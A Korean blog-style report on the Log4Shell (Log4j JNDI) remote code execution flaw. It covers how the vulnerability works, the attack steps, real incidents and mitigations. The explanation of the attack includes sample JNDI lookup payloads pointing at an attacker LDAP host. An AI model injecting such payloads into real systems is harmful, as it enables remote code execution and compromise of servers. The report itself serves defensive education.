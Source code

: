 ```yaml
---
layout: post
title:  LOG4shell 보고서
date:   2025-03-24
category: Design
image: assets/img/5_28_work/log4shell.jpg
author: 이태강
tags: code
---
```


Log4Shell이란?


Apache Log4j라는 Java 기반 로깅 라이브러리에서 발견된 원격 코드 실행(RCE) 취약점


높은 위험도: CVSS 점수 10점(최고 점수)을 받았으며, 광범위한 영향으로 인해 매우 위험합니다.


영향받는 버전: Apache Log4j 2.0-beta9부터 2.14.1 사이의 버전이 취약합니다


취약점의 원리
Log4Shell은 JNDI(Java Naming and Directory Interface) Lookup 기능의 취약점을 악용합니다:
1.	JNDI Lookup의 동작: Log4j는 로그 메시지 내 특정 문자열(예: ${jndi:ldap://attacker.com/a})을 처리할 때 JNDI를 호출하여 외부 서버와 통신합니다.
2.	검증 부족: JNDI 호출 시 외부 디렉토리 서비스(LDAP, RMI 등)에서 데이터를 불러오는데, 이 과정에서 입력값 검증이 제대로 이루어지지 않았습니다.
3.	악성 코드 실행: 공격자는 악성 페이로드를 포함한 URL을 삽입하여 Log4j가 이를 처리하도록 유도하고, 서버가 공격자의 LDAP 서버에서 악성 클래스를 다운로드 및 실행하게 만듭니다.

공격 과정



1.	악성 문자열 삽입:
공격자는 로그 메시지에 ${jndi:ldap://malicious-server}와 같은 악성 문자열을 삽입합니다. 이 문자열은 Log4j가 JNDI(Java Naming and Directory Interface) 호출로 처리하도록 설계되었습니다.
2.	JNDI Lookup 수행:
Log4j는 로그 메시지를 처리할 때 JNDI Lookup 기능을 통해 외부 서버(예: ldap://malicious-server)와 통신합니다. 이때, 입력값에 대한 검증이 이루어지지 않아 공격자의 서버로 연결됩니다.
3.	악성 Java 클래스 반환:
공격자의 LDAP 서버는 악성 Java 클래스 파일을 반환합니다. 이 파일은 공격자가 미리 설계한 페이로드를 포함하고 있습니다.
4.	피해 서버에서 실행:
피해 서버는 반환된 Java 클래스를 역직렬화하거나 실행합니다. 이로 인해 공격자는 피해 서버에서 임의의 코드를 실행하거나 시스템을 제어할 수 있게 됩니다

  
 피해 사례
   Log4Shell은 전 세계적으로 광범위한 영향을 미쳤으며, 다음과 같은 주요 사례가 보고되었습니다:
•	Minecraft: 게임 내 채팅창에 악성 문자열을 입력해 서버를 장악하는 방식으로 Khonsari 랜섬웨어가 유포되었습니다.
•	대형 기업: Twitter, Cisco, VMware 등 여러 글로벌 기업이 영향을 받았으며, 해커들은 크립토마이닝, 파일리스 멀웨어 등을 배포했습니다.
•	국가 차원의 공격: 중국, 이란, 북한 등과 관련된 해커들이 이 취약점을 악용한 것으로 나타났습니다.


방어 방법
   Log4Shell 취약점을 방어하기 위해 다음과 같은 조치가 권장됩니다:



1.	Log4j 업데이트:
Apache에서 제공한 패치 버전(2.15.0 이상)으로 즉시 업데이트합니다.
최신 버전(2.17.x)을 사용하는 것이 가장 안전합니다.

2.	JNDI Lookup 비활성화:
log4j2.formatMsgNoLookups=true 옵션을 설정하거나, %m을 %m{nolookups}로 변경하여 JNDI 호출을 차단합니다.

3.	네트워크 보안 강화:
IDS/IPS(침입 탐지/방지 시스템)를 사용해 의심스러운 트래픽을 차단합니다.
방화벽 규칙을 설정해 외부 LDAP/RMI 요청을 제한합니다.

4.	대체 라이브러리 사용:
Logback 등 다른 로깅 라이브러리로 교체
